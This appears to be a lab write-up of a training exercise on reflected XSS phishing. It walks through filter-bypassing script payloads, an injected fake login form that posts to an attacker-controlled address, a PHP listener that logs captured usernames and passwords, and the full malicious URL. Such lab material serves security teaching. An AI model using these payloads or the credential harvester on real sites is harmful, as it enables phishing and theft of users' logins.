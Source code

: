 # Phishing

### Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

In many online forums and web applications, there are opportunities to manipulate how a page displays content through a technique known as Cross-Site Scripting (XSS). XSS is a security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. When we attempt to use a basic XSS payload, we might find that it doesn’t execute as expected, often resulting in an error icon that indicates a broken image link. This is a common issue when the application has security measures in place to prevent such injections.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-30-03 (3).png" alt=""><figcaption></figcaption></figure>

### Step 1: Understanding the Target Application

1. **Identify the Input Field**: Locate the input field where user input is accepted (e.g., an image URL input).
2. **Analyze the Output**: Use browser developer tools (F12) to inspect how your input is rendered in the HTML.
   * {% code overflow="wrap" %}
     ```html
     <html lang="en">
     <body style="background-color: #141d2b; font-family: sans-serif; color: white;">
         <!-- --SNIP-- -->
         <img src='test'>
     </body>
     </html>
     ```
     {% endcode %}

### Step 2: Initial Payload Testing

1. **Basic XSS Payload**: Start with a simple payload:

```markup
<script>alert(1);</script>
```

* Input this into the image URL field and submit.
* If the alert box appears, you have confirmed an XSS vulnerability.

2. **Check for Output Encoding**: If the payload does not execute, check for HTML entities (e.g., `&lt;` for `<`).

### Step 3: Crafting a Working Payload

1. **Bypass Filters**: If basic payloads are blocked, try variations:
   * Use alternative tags or attributes;
   * Incorporate Special Characters:&#x20;

```html
'><script>alert(1);</script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-32-28 (2).png" alt=""><figcaption></figcaption></figure>

2. **Inspecting the HTML Output**: After submitting your payload, view the page source to see how your input is rendered.

### Step 4: Developing the Phishing Payload

1. **Create a Login Form**: Use `document.write()` to inject the phishing form:

{% code overflow="wrap" %}
```html
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
{% endcode %}

2. **Remove Existing Elements**: To make the phishing form more convincing, remove the original input field:

```javascript
document.getElementById('urlform').remove();
```

3. **Combine the Code**: Your final payload might look like this:

{% code overflow="wrap" %}
```javascript
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 5: Setting Up the Listener

1. **Using PHP**: Create a PHP script to log the credentials:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://YOUR_SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

* Save this as `index.php` and run a PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Step 6: Executing the Attack

1. **Craft the Malicious URL**: Combine the target URL with your payload:

{% code overflow="wrap" %}
```html
http://YOUR_SERVER_IP/phishing/index.php?url='><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.32><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()</script>;<!--

```
{% endcode %}

2. **Send the URL**:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-24-24 (2).png" alt=""><figcaption></figcaption></figure>

2. **Capture Credentials**: When a victim logs in, their credentials will be sent to your server, and you can check `creds.txt` for the captured information.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-12 (2).png" alt=""><figcaption></figcaption></figure>

### Step 7: Test the captured the credentials

1. Go to http://SERVER\_IP/phishing/login.php and enter the captured credentials to retrieve the flag:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-47 (1).png" alt=""><figcaption></figcaption></figure>











